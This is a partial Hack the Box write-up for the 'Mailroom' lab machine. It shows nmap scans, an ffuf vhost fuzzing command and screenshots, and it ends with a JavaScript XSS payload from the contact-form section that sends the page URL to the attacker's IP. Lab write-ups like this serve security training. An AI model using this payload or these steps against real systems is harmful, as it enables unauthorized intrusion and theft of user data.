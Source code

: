 # Hack the Box

## NMAP Scans
```CSS
▶ nmap -Pn -sS -T4 --min-rate 5000 -p- 10.10.11.209 -oN mailroom.surface                                           

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 01:12 IST
Nmap scan report for 10.10.11.209
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.52 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 22,80 10.10.11.209 -oN mailroom.deep

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 01:16 IST
Nmap scan report for 10.10.11.209
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 94:bb:2f:fc:ae:b9:b1:82:af:d7:89:81:1a:a7:6c:e5 (RSA)
|   256 82:1b:eb:75:8b:96:30:cf:94:6e:79:57:d9:dd:ec:a7 (ECDSA)
|_  256 19:fb:45:fe:b9:e4:27:5d:e5:bb:f3:54:97:dd:68:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: The Mail Room
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

## HTTP
- Home
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d2d1e1bf-d68b-4eec-82ba-671144701bb8)

- Contact Us
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7c7c8a9c-e443-4322-9df5-d9f8dc3050cf)

## VHost
```CSS
▶ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0.1' -H 'Host: FUZZ.mailroom.htb' -u http://10.10.11.209 -fs 7748
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a51df4f4-8aee-4b12-b245-9e8df0efa8b2)

## Gitea Instance
- Public Repository
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/136580e5-5969-4a22-9049-a3f787c6679f)

- File: auth.php
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/74fc66c0-fcf7-44b5-ae25-24a6d2b72029)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/67f02370-f22c-4b7f-a255-597fb9d8d5e5)

- File: index.php
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cdba2d96-74fa-4414-b568-98144dabee8b)

- Forbidden
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/92e6113a-dd50-42f6-a8ff-d3660c733c26)

## Cross Site Scripting
- Contact Form
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/82186fed-786c-49a0-85c8-fcad35d89080)

- Cross Site Scripting in Contact Form
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ed23d09e-b6b4-43dd-92bd-0eb03cab0d00)

```JS
var url = window.location.href
var req = new XMLHttpRequest()
req.open("GET", "http://10.10.14.6/?resp=" + btoa(url), true);
req.send()
```
